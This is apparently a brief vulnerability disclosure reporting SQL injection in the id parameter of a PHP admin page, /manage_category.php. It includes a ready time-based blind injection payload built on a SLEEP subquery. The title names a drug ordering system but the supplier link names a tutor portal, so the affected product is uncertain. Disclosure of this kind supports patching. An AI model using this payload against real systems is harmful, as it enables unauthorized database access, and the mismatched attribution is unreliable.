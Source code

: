 # SQL injection vulnerability exists in the online drug ordering system

## Vulnerability author:liuyuanyuan

supplier:
https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.htm

edition: 
1.0

/manage_category.php

The Id parameter has SQL injection. Procedure

Payload: http://localhost:80/omos/admin/?page=categories/manage_category&id=2' AND (SELECT 2244 FROM (SELECT(SLEEP(5)))PpSJ) AND 'JfRg'='JfRg

![image](https://github.com/user-attachments/assets/a6b67572-8d89-4a89-8199-08b2234d65ea)

![image](https://github.com/user-attachments/assets/1300cff4-e4bd-41cd-b019-681595baccc3)
